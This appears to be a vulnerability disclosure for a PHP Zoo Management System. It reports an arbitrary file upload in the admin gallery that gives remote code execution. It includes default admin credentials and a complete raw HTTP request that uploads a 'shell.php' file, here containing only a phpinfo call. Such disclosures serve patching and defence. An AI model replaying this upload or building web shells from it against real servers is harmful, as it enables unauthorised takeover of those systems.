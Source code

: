 # Zoo Management System v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: Lime

Admind login account: admin@mail.com/Password@123

vendor: https://www.sourcecodester.com/php/15347/zoo-management-system-source-code-php-mysql-database.html

Vulnerability url: http://ip/ZooManagementSystem/admin/public_html/gallery

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the "gallery" file of the "Gallery" module in the background management system

Request package for file upload：

```sql
POST /ZooManagementSystem/admin/public_html/gallery HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/ZooManagementSystem/admin/public_html/gallery
Cookie: PHPSESSID=5d10vq7lgptbau7foskstiug7i
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------29223726215286
Content-Length: 330

-----------------------------29223726215286
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------29223726215286
Content-Disposition: form-data; name="submit_image"


-----------------------------29223726215286--
```

The files will be uploaded to this directory \ZooManagementSystem\img\gallery\image
![image](https://user-images.githubusercontent.com/54017627/183284637-f56d8506-3abf-43c7-942c-b6f7e2014f0f.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183284654-2f2c005d-6c07-4f49-a8fe-06961e7d2cc9.png)
